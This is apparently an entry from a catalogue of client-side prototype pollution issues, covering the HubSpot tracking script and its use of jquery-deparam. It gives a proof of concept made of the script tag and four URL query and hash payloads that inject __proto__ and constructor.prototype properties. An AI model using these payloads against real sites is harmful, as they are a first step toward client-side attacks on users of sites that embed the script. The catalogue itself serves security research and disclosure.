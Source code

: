 ## HubSpot Tracking Code

URL: https://knowledge.hubspot.com/reports/install-the-hubspot-tracking-code

### Vulnerable code fragment

https://js.hs-analytics.net/analytics/12345/1234556789.js  

Uses [deparam](/pp/jquery-deparam.md)

### PoC
```html
<script type="text/javascript" id="hs-script-loader" async defer src="https://js.hs-scripts.com/1234.js"></script>
```
```
?__proto__[test]=test
?constructor[prototype][test]=test
#__proto__[test]=test
#constructor[prototype][test]=test
```
